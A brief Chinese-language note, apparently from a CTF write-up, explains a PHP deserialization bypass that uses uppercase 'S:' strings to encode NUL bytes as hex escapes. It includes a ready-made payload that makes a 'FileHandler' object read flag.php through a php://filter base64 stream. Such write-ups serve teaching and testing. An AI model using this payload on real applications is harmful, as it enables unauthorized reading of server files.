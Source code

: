 通过将序列化文本中的`s:<length>`改为`S:<length>`来启用16进制转义

例如
```php
/?str=O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";S:10:"\00*\00content";s:3:"123";}
```
中`\00`就被转义成了`NUL`这个字符

#Web #PHP #ASCII #反序列化 #绕过